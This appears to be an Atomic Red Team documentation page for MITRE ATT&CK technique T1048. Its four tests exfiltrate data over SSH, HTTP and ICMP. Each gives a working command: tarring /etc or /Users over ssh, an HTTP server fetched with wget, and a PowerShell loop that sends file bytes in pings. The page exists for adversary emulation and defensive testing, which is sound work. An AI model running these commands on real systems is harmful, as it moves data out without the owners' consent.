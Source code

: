 # T1048 - Exfiltration Over Alternative Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1048)
<blockquote>Data exfiltration is performed with a different protocol from the main command and control protocol or channel. The data is likely to be sent to an alternate network location from the main command and control server. Alternate protocols include FTP, SMTP, HTTP/S, DNS, or some other network protocol. Different channels could include Internet Web services such as cloud storage.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-1---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-2---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #3 - Exfiltration Over Alternative Protocol - HTTP](#atomic-test-3---exfiltration-over-alternative-protocol---http)

- [Atomic Test #4 - Exfiltration Over Alternative Protocol - ICMP](#atomic-test-4---exfiltration-over-alternative-protocol---icmp)


<br/>

## Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Remote to Local

**Supported Platforms:** macOS, CentOS, Ubuntu, Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| domain | target SSH domain | url | target.example.com|
| user_name | username for domain | string | atomic|
| password | password for user | string | atomic|

#### Run it with `sh`! ```
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```



<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Local to Remote

**Supported Platforms:** macOS, CentOS, Ubuntu, Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| domain | target SSH domain | url | target.example.com|
| user_name | username for domain | string | atomic|
| password | password for user | string | atomic|

#### Run it with `sh`! ```
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```



<br/>
<br/>

## Atomic Test #3 - Exfiltration Over Alternative Protocol - HTTP
A firewall rule (iptables or firewalld) will be needed to allow exfiltration on port 1337.

**Supported Platforms:** macOS, CentOS, Ubuntu, Linux


#### Run it with these steps! 1. Victim System Configuration:

    mkdir /tmp/victim-staging-area
    echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt

2. Using Python to establish a one-line HTTP server on victim system:

    cd /tmp/victim-staging-area
    python -m SimpleHTTPServer 1337

3. To retrieve the data from an adversary system:

    wget http://VICTIM_IP:1337/victim-file.txt





<br/>
<br/>

## Atomic Test #4 - Exfiltration Over Alternative Protocol - ICMP
Exfiltration of specified file over ICMP protocol.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_file | Path to file to be exfiltrated. | Path | C:\Windows\System32\notepad.exe|
| ip_address | Destination IP address where the data should be sent. | String | 1.1.1.1|

#### Run it with `powershell`! ```
$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path #{input_file} -Encoding Byte -ReadCount 1024) { $ping.Send("#{ip_address}", 1500, $Data) }
```



<br/>
